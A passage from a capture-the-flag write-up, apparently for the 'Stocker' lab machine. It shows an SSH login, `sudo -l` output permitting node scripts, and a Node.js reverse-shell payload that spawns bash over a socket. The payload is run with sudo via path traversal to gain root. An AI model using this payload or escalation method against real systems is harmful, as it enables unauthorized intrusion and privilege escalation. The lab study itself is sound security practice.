 we can try this username:`Angoose` and password on ssh.


<img width="228" alt="image" src="https://user-images.githubusercontent.com/79740895/228792401-92e175e9-5868-4f29-9276-513a2303d220.png">

### Escalating Privileges

chech root Permission using `sudo -l`

```shell
angoose@stocker:~$ sudo -l
[sudo] password for angoose: 
Sorry, try again.
[sudo] password for angoose: 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

we can escalate our privilege with node 

Payload:
```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("bash", []);
    var client = new net.Socket();
    client.connect(8888, "127.0.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

Reference: https://www.revshells.com/

save this as js file and run using sudo and path traversal.

<img width="343" alt="image" src="https://user-images.githubusercontent.com/79740895/228799823-4734593e-c124-4224-ba63-a028a4618805.png">

<img width="200" alt="image" src="https://user-images.githubusercontent.com/79740895/228798809-70c77d3a-894a-4cb9-80fc-49fb48994544.png">

Now we are root.


Happy Hacking
